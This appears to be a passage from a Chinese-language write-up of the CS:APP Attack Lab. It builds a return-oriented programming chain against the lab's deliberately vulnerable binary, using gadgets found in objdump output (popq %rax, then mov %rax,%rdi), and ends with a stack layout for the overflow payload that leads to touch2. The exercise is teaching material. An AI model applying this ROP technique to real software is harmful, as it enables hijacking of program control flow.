 ```
  4019b5:   c7 07 54 c2 58 92       movl   $0x9258c254,(%rdi)
  4019bb:   c3                      retq   

00000000004019bc <setval_470>:
  4019bc:   c7 07 63 48 8d c7       movl   $0xc78d4863,(%rdi)
  4019c2:   c3                      retq   

00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq   

00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq   

00000000004019d0 <mid_farm>:
  4019d0:   b8 01 00 00 00          mov    $0x1,%eax
  4019d5:   c3                      retq
```

这个同样是需要调用 touch2, 要处理传参问题, 即需要修改 rdi 或者 edi 寄存器的内容; 并且 cookie 的值必须从栈传递, 即必须 pop 到某个寄存器.

- 思路一: 看看有没有直接的 popq %rdi, 对应机器码 0x5f, 在 start_farm 和 mid_farm 之间的反汇编代码中寻找, 发现没有.
- 思路二: 没有直接的 popq %rdi, 那应该是先 pop 到了某一个寄存器(设需要指令 ins_1), 再从一个寄存器转移到 rdi(设需要指令 ins_2),这也印证了提示需要两个 gadget.

对于 pop 指令, 允许的操作对象为前 8 个寄存器, 那么其机器码一定为 0x5?, 一查找, 发现 0x5? 的机器码不多, 唯一有可能的便是 `58 90 c3`(注意出现了两处, 随便用一处即可), 翻译一下

```
58      popq %rax
90      nop
c3      ret
```

完美, 先把 cookie 移动到 %rax(ins_1), 然后一个 nop, 最后再一个 ret 跳转到 ins_2.

那么接下来需要寻找指令 `mov %rax, %rdi`(ins_2), 其机器码为 `48 89 c7`, 在 farm 中找到有三处, 并且有两处后边有 ret 可以让我们最终跳转到 touch2, 问题解决.

按如下设计注入

```
            +--------+
            |        |
            |        |       Gets 栈帧, 保存了 3 个寄存器
            |        |
            ----------
            |        |       Gets 返回地址
&buf        |        |       从这里开始接收输入
            |        |
            |        |       getbuf 栈帧, 分配了 0x28 个字节
            |        |
&buf+0x28   |        |
            ----------
&buf+0x30   | &ins_1 |       getbuf 返回地址
            | cookie |       test 栈帧
            | &ins_2 |
            | &touch2|
            +--------+
```
